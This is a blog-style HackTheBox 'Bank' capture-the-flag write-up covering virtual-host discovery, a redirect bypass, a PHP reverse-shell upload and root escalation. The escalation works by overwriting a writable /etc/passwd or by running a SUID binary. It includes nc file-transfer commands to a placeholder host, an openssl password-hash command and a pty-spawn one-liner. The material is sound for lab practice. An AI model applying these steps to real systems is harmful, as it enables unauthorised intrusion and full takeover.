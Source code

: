 ```yaml
---
layout: post
title:	"Bank Writeup"
date:	2018-09-13 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - hackthebox
---
```

<head>
	<title> Bank Writeup | HackTheBox </title>
</head>

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/logo.png)

## i. Port Scan

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/ports.png)

## ii. Enumeration / Low Priv Shell

Starting off with http, we navigate to the host:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/apache.png)

We see the default apache page. 

The reason we see the default apache page is because Apache is using Virtual Hosting.

~~~
https://httpd.apache.org/docs/trunk/vhosts/examples.html
~~~

If we edit our hosts file (`/etc/hosts`), this is the local DNS in Linux.

We add bank.htb along with the IP:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/hosts.png)

~~~
Knowing to edit the hosts file is a little trivial. I guess DNS being open was some sort of a hint?
~~~

Now navigating to bank.htb:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/bank.png)

Time to run a gobuster, and see if there are any other directories / PHP files:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/gobuster.png)

Navigating to any of these pages redirects us back to /login.php

Let's try grabbing the source of support.php with curl:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/source.png)

Looks like the page has content, but we're being redirected.

The way we can see what's on the page is by using a web proxy.

For some reason Burp was not returning the response code and was automatically sending a GET request to login.php, so I used `zap`.

Navigate to support.php:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/302.png)

Change the 302 to 200, and the page should load without redirecting:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/200.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/fileupload.png)

Looks like we have a place where we can upload files. If we noticed from the source earlier, there's a message:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/htb.png)

So the extension .htb, gets treated as .php. 

I'm going to use a php reverse shell, rename it to shell.htb, and upload the shell.

~~~
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
~~~

After uploading the shell, you will be redirected back to login.php

Now you can access your uploaded shell on `http://bank.htb/uploads/shell.htb` and the listener should catch it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/shell.png)

## iii. Privilege Escalation

There are two ways to escalate privileges.

### a. Priv Esc #1

While enumerating the system, I noticed that the `/etc/passwd` file had write permissions for our user.

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/perms.png)

I then used nc to transfer the `passwd` file to my system so I can edit it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/passwd.png)

~~~ 
ON OTHER HOST:

$ nc -w 3 YOUR-IP PORT < file

ON YOUR HOST:

$ nc -l -p PORT > file
~~~

Now we can use `openssl` to generate a password and insert it into `/etc/passwd`

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/toor.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/passwd2.png)

~~~
$ openssl passwd -1 -salt [username] [password]

The original format of root entry:

root:x:0:0:root:/root:/bin/bash

the x is a placeholder for the password, which the system retrieves the hash from /etc/shadow

if we replace x with a hash generated by openssl, we can login
	- you can also make a new account and set the UID to 0, and it'll be treated as root as well

https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/
~~~

Then use wget to download the new passwd file and use the `-O` switch to output the file as `/etc/passwd`:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/wget.png)

Now we can `su` to root with the password we generated.

* A TTY shell must be spawned before using su `python -c 'import pty;pty.spawn("/bin/bash")'`

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/root1.png)

### b. Priv Esc #2

If we look at all the files that contain SUID bits with root permissions:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/suid.png)

`/var/htb/emergency` seems to be a little sketchy.

Running emergency...

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/emergency.png)

We are root!

## iv. Conclusion

I had trouble in the beginning of the box because of the Virtual Hosting. Apart from that this box is great practice to make sure you keep your eyes out and not miss little details.







~~~
Sources / Links:
[0]: https://httpd.apache.org/docs/trunk/vhosts/examples.html
[1]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[2]: https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/
~~~



